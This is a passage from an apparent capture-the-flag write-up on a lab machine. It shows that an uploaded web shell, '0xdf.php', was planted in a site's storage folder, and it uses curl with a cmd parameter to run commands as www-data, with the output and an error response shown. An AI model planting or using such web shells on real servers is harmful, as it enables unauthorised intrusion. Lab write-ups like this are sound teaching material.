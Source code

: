 On sending, the request hangs for a second, and then returns a 502 Bad
Gateway failure:

![](/img/image-20230915102458063.png)

This is a sign of success, as `0xdf.php` is there:



    oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php?cmd=id
    caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
     CAPTION 120x120 120x120+0+0 16-bit sRGB 2.070u 0:02.076



If there is something wrong with the request, the response looks like
this:



    HTTP/1.1 422 Unprocessable Content
    Server: nginx/1.18.0 (Ubuntu)
    Content-Type: text.md; charset=UTF-8
    Connection: close
    Cache-Control: no-cache, private
    Date: Thu, 12 Oct 2023 21:47:03 GMT
    X-RateLimit-Limit: 3600
    X-RateLimit-Remaining: 3599
    Access-Control-Allow-Origin: *
    Content-Length: 14
